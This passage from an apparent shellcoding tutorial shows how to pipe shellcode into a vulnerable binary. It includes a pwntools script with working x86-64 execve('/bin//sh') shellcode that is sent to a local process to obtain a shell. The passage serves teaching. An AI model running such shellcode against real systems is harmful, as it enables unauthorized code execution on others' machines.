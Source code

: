 > I will not cover how to extract the opcodes from this, as we have already seen it.
{: .prompt-info}

<br>

There are other ways to send shellcode to a program. For example, suppose we have a binary that reads some input via **stdin**. In that case, we can use the `cat` command to send the input. As you may already know, this command replicates whatever input you send it (an empty cat command on the terminal will replicate each string you send). This command can be very useful when we need to send binaries to other binaries. For instance:
```console
$ cat shellcode | ./vulnerable
```

This will send the entire binary to the other binary, so we don't need to extract the opcodes. The **pwntools** library in Python can help us send shellcode without even compiling it:
```python
from pwn import *

context(os="linux", arch="amd64")

sc = asm("""
xor rsi,rsi
push rsi
mov rdi,0x68732f2f6e69622f
push rdi
push rsp
pop rdi
push 59
pop rax
cdq
syscall
""")

p = process("/vulnerable")
p.send(sc)
p.interactive()
```

But we will discuss this library later.

Now the real magic of shellcoding begins. We need to go through the different system calls, choose the ones we want to execute, set the parameters, and call them. Easy, right? But the real problem arises when certain characters (such as null bytes) may trigger the program to stop, break some return values on the stack and make the program crash (which may not be ideal for a remote exploit), or even have a limited size to inject the shellcode.

This is when the difference between a good and a bad blacksmith is made. But don't worry, not everyone is suited for smithing :).

<br>

---

## Debugging It!
